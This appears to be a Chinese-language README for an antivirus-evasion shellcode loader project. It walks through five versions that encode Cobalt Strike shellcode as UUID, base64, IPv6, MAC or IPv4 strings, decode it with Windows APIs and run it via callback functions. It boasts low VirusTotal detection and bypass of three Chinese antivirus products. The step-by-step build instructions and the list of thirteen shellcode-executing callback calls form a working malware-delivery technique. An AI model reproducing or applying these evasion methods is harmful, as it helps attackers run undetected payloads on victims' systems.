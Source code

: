 # 免杀方式：回调函数



## 编译环境：

VS2022、Windows SDK 10.0、C++14



## 目录

| 版本号 | 写入内存方式                         | VT查杀率 | 时间       | 火绒 | 360  | 腾讯 | 代码 |
| ------ | ------------------------------------ | -------- | ---------- | ---- | ---- | ---- | ---- |
| 0.1    | uuid转化(UuidFromStringA)            | 4/68     | 2022-02-18 | √    | √    | √    | c++  |
| 0.2    | base64+uuid转化(UuidFromStringA)     | 2/68     | 2022-02-18 | √    | √    | √    | c++  |
| 0.3    | ipv6转化(RtlIpv6StringToAddressA)    | 2/68     | 2022-02-21 | √    | √    | √    | c++  |
| 0.4    | mac转化(RtlEthernetStringToAddressA) | 3/67     | 2022-02-21 | √    | √    | √    | c++  |
| 0.5    | ipv4转化(RtlIpv4StringToAddressA)    | 2/66     | 2022-03-07 | √    | √    | √    | c++  |



## 上手指南

 使用Cobalt Strike生成X64位的shellcode

![image-20220218181020741](../images/image-callback-1.png)

###  版本0.1

将shellcode替换至./v0.1/trans.py中的buf变量，并执行该脚本。(shellcode -> uuid)

```bash
python3 ./v0.1/trans.py
```

![image-20220218192747863](../images/image-callback-2.png)

将转换好的uuid，替换至./v0.1/main.cpp中的uuids字符串数组中

编译运行即可。



### 版本0.2

将shellcode替换至./v0.2/trans.py中的buf变量，并执行该脚本。(shellcode -> uuid -> base64)

```bash
python3 ./v0.2/trans.py
```

![image-20220218193413454](../images/image-callback-3.png)

将转换好的base64，替换至./v0.2/main.cpp中的uuids_base64数组中

编译运行即可。



### 版本0.3

先将shellcode转化为ipv6格式，客户端读取ipv6之后调用RtlIpv6StringToAddressA恢复成shellcode再通过回调函数加载至内存

将shellcode替换至./v0.3/trans.py中的buf变量，并执行该脚本。(shellcode -> ipv6)

```python
python3 ./v0.3/trans.py
```

![111](../images/image-callback-5.png)

将转换好的ipv6，替换至./v0.3/main.cpp中的ipv6数组中

编译运行即可。



### 版本0.4

将shellcode替换至./v0.4/trans.py中的buf变量，并执行该脚本。(shellcode -> mac)

```python
python3 ./v0.4/trans.py
```

将转换好的mac，替换至./v0.4/main.cpp中的mac_数组中

编译运行即可。



### 版本0.5

将shellcode替换至./v0.5/trans.py中的buf变量，并执行该脚本。(shellcode -> ipv4)

```python
python3 ./v0.5/trans.py
```

将转换好的ipv4，替换至./v0.5/main.cpp中的mac_数组中

编译运行即可。





## 解决出现黑框情况

[VS中运行去除黑框](https://github.com/midisec/BypassAnti-Virus/blob/main/common/VS%E4%B8%AD%E8%BF%90%E8%A1%8C%E5%8E%BB%E9%99%A4%E9%BB%91%E6%A1%86.md)



## 原理分析

什么是UUID？  通用唯一标识符 ( Universally Unique Identifier )， 我们可以利用该机制将shellcode转化成uuid，并在运行程序时，将uuid重新转化成shellcode，加载至内存。

什么是回调函数？  回调函数（callback）是一个通过函数指针来调用的函数。

如何利用回调函数？  在windows系统中，有许多库函数需要传递一个回调函数，因此我们可以通过该机制，将恶意的shellcode加载至内存。

![cucv50oqin](../images/image-callback-4.png)

WINDOWS库中，可利用的回调函数，经过测试，以下均可以成功执行回调函数加载shellcode。

```c++
EnumSystemLocalesA((LOCALE_ENUMPROCA)ha, 0);
EnumTimeFormatsA((TIMEFMT_ENUMPROCA)ha, 0, 0);
EnumWindows((WNDENUMPROC)ha, 0);
EnumDesktopWindows(NULL,(WNDENUMPROC)ha, 0);
EnumThreadWindows(0, (WNDENUMPROC)ha, 0);
EnumSystemGeoID(0, 0, (GEO_ENUMPROC)ha);
EnumSystemLanguageGroupsA((LANGUAGEGROUP_ENUMPROCA)ha, 0, 0);
EnumUILanguagesA((UILANGUAGE_ENUMPROCA)ha, 0, 0);
EnumSystemCodePagesA((CODEPAGE_ENUMPROCA)ha, 0);
EnumDesktopsW(NULL,(DESKTOPENUMPROCW)ha, NULL);
EnumSystemCodePagesW((CODEPAGE_ENUMPROCW)ha, 0);
EnumDateFormatsA((DATEFMT_ENUMPROCA)ha, 0, 0);
EnumChildWindows(NULL, (WNDENUMPROC)ha, 0);
```



IPV6同uuid的原理，先将恶意payload转化成ipv6格式，再通过windows系统库函数去解析成shellcode，再去加载至内存，达到免杀效果。





## 参考

https://my.oschina.net/u/4079523/blog/5011399

https://cloud.tencent.com/developer/article/1819583

https://mp.weixin.qq.com/s/3Hit7a3hQ97XDHaMSZQ8cQ

https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-enumthreadwindows

